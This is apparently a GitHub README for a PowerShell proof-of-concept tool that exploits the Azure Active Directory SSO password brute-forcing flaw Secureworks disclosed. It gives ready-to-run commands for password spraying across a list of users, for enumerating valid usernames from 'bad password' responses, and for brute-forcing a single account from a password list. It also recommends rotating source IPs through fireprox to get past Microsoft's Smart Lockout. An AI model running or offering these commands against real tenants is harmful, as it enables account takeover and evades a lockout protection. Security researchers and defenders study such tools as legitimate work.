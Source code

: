 # aad-sso-enum-brute-spray
POC of SecureWorks' recent Azure Active Directory password brute-forcing vuln


## Description

This code is a proof-of-concept of the recently revealed Azure Active Directory password brute-forcing vulnerability [announced by Secureworks](https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/).

## Use

Basic usage is simple:  

### Password spraying

```
.\aad-sso-enum-brute-spray.ps1 USERNAME PASSWORD
```

Calling the code in this way will allow you to get the result for the specified username and password.

By taking advantage of foreach, you can easily leverage this for password spraying:

```
foreach($line in Get-Content .\all-m365-users.txt) {.\aad-sso-enum-brute-spray.ps1 $line Passw0rd! |Out-File -FilePath .\spray-results.txt -Append }
```

Note that using this method will require you to convert the resulting file from UTF-16 to UTF-8 if you want to work with it in Linux:

```
iconv -f UTF16 -t UTF-8 spray-results.txt >new-spray-results.txt
```

### User enumeration

If you're only interested in enumeration, just run as above for password spraying.  Any return value of "bad password" would mean you've found a valid username.

### Brute forcing

To leverage the code for brute forcing, simply iterate over the password field instead of the username field:

```
foreach($line in Get-Content .\passwords.txt) {.\aad-sso-enum-brute-spray.ps1 test.user@contoso.com $line |Out-File -FilePath .\brute-results.txt -Append }
```


## Important note
Microsoft's Smart Lockout feature will start falsely claiming that accounts are locked if you hit the API endpoint too quickly from the same IP address.  To get around this, I strongly recommend using [ustayready's fireprox](https://github.com/ustayready/fireprox) to avoid this problem.  Simply change the $url variable thus:

```
$url="https://xxxxxxx.execute-api.us-east-1.amazonaws.com/fireprox/"+$requestid
```

## Thanks
Almost all the code for this was borrowed from [Dr. Nestori Syynimaa's excellent AADInternals project](https://raw.githubusercontent.com/Gerenios/AADInternals/eade775c6cd4f8ed16bd77602e1ea12a02fe265e/KillChain_utils.ps1).
